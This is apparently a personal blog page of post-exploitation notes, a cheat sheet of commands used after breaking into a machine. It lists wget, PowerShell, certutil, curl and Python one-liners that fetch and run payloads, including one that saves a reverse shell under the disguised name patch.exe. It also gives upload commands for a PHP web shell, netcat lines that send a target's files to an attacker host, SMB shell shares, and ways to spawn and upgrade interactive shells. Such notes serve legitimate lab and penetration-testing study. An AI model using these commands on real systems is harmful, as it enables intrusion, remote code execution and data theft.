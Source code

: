 ```yaml
---
layout: single
title: "Misc Notes"
collection: notes
excerpt: "Trials and tribulations"
permalink: /notes/2020-05-10-misc
toc: true
---
```


# Exploitation:



# Post Exploitation
## Transfering Files: 
HTTP:
- Apache: 
Copying the file to `/var/www/html` directory and starting apache services.
-  Python
```python
  python -m SimpleHTTPServer 80
  python3 -m http.server 80
```

Downloading the files:
*  via browser in a Gui platform.
*  via shell access.
   -  wget command.
   ```python
    wget http://10.10.10.100:8007/execute.py; chmod +x excute.py; ./excute.py
   ```
   - Using Powershell:
   ```python
   powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
   powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.x.x.x:8000/reverse_shell.exe','C:\Windows\Temp\patch.exe')
   certutil.exe -urlcache -split -f "https://host/40564.txt" attack.txt
   certutil.exe -decode attack.txt attack.exe
   ```
   -  curl command.
   ```python
     curl -O http://10.10.14.30:9005/file
     Uploading:
     curl --upload-file shell.php --url http://$ip/shell.php --http1.0
   ```
   -  Python.
   ```python
      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
   ```

Ftp:
- 
   ```python
      Install the python ftp library - pyftpdlib
      python -m pyftpdlib -p 21
   ```

Smb:
-  
   ```python
      python smbserver.py SHARENAME /root/shells

      Copying files:[Target Machine]
       dir \\192.168.0.201\SHARENAME
       copy \\192.168.0.201\SHARENAME\40056.exe
   ```

Protip:
-  
```python
   On local system:
   cat filetoupload | base64 -w 0; echo
   #double click on output to copy
   On Target System:
   echo <copiedContent> | base64 -d > filetoupload
```

* Netcut:

   ```python
      on attacker run:
      nc -lvp 443> transfer.txt
      on target run:
      cat transfer.txt | nc $attackerip 443
   ```

## Spawning a Shell:
Python:
```python
    python -c  'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'

```
Echo:
```python
   echo os.system('/bin/bash') 
```
Bash and Sh:
```python
   /bin/bash -i
   /bin/sh -i
```
## Obtaining a interactive shell.

1. Do CTRL+Z to background Netcat Session.

2. Enter stty raw -echo in your terminal

3. Run the command fg - bring Netcat back to the foreground.

## List user privileges:
```python
   Windows: 
   whoami /priv
   Unix:
   sudo -l
```